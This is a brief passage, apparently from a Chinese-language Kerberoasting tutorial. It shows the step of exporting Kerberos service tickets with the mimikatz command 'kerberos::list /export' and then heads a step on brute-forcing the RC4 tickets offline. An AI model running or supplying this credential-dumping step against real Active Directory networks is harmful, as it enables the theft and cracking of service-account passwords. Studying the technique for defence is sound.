 [![](assets/1701606719-0097d8392fbef790c4853247d7b0ac4a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162622-7fe1129a-7e10-1.png)  
3、导出 TGS

```plain
mimikatz # kerberos::list /export
```

[![](assets/1701606719-091772eaecc238649264eb4fbaae56c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162646-8de48296-7e10-1.png)  
4、暴力破解 (选取 RC4 的来破解)
